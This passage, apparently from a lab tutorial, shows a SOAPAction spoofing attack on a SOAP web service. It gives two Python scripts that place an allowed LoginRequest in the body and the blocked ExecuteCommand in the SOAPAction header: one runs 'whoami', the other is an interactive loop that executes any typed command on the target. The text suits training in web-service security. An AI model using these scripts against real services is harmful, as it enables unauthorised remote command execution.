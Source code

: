 We get an error mentioning This function is only allowed in internal networks. We have no access to the internal networks. Does this mean we are stuck? Not yet! Let us try a SOAPAction spoofing attack, as follows.

Let us build a new Python script for our SOAPAction spoofing attack (save it as client_soapaction_spoofing.py).

```
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

- We specify LoginRequest in <soap:Body>, so that our request goes through. This operation is allowed from the outside.
- We specify the parameters of ExecuteCommand because we want to have the SOAP service execute a whoami command.
-We specify the blocked operation (ExecuteCommand) in the SOAPAction header

If the web service determines the operation to be executed based solely on the SOAPAction header, we may bypass the restrictions and have the SOAP service execute a whoami command.


If you want to be able to specify multiple commands and see the result each time, use the following Python script (save it as automate.py).


```
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

